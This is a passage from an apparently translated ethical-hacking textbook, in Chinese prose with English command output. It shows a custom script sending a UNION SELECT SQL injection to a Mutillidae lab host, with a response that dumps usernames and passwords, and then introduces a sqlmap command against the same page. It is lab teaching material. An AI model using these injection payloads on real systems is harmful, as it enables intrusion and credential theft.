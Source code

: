 ```
kali@kali:~/Desktop/injection$ sudo python3 sql_injection.py --host="

			 192.168.1.112" -u="/mutillidae/index.php?page=user-info.php&username=&

			 password=&user-info-php-submit-button=View+Account+Details" --param="

			 password" --cookie="PHPSESSID=3e726056cf963b43bd87036e378d07b"
GET /mutillidae/index.php?page=user-info.php&username=&password=+%27UNION+

			 SELECT+%2A+FROM+accounts+where+%271%27%3D%271&user-info-php-submit-

			 button=View+Account+Details
Host: 192.168.1.112
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml,application/xml
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Cookie: PHPSESSID=3e726056cf963b43bd87036e378d07b

...

16 records found.<p><b>Username=</b>admin<br><b>Password=</b>adminpass<br><b>

			 Signature=</b>Monkey!<br><p><b>Usern'
b'ame=</b>adrian<br><b>Password=</b>somepassword<br><b>Signature=</b>Zombie

			 Films Rock!<br><p><b>Username=</b>john<br><b>Password=</b>monkey<br><b

			 >Signature=</b>I like the smell of confunk<br><p><b>Username=</b>

			 jeremy<br><b>Password=</b>password<br><b>Signature=</b>d1373 1337

			![image](img/arrow01.jpg)
			 speak
```

脚本打印请求和服务器的 HTML 响应。前面的示例显示了 HTML 响应的一部分，其中包含用户名和密码对。调试脚本的一个好方法是使用 Wireshark 捕获请求和响应。

### **使用 SQLMap**

我们刚刚构建了自己的 SQL 注入工具，但现有工具比我们的功能更强大。最流行的 SQL 注入工具之一是 *SQLmap*，它可以自动化发现和利用 SQL 注入漏洞的过程。让我们对 Mutillidae Web 应用程序执行另一次注入攻击。打开 Kali Linux 中的新终端，并运行以下命令启动 SQLmap shell（它应该已经预装在 Kali Linux 中）：

```
kali@kali:~$ sqlmap -u "http://<Metasploitable-IP>/mutillidae/index.php?page=

			 user-info.php&username=&password=&" --sqlmap-shell

sqlmap-shell>
```

`-u` 选项指定了我们要攻击的网页 URL。这里我们传入了本章之前攻击过的 Mutillidae 登录页面。

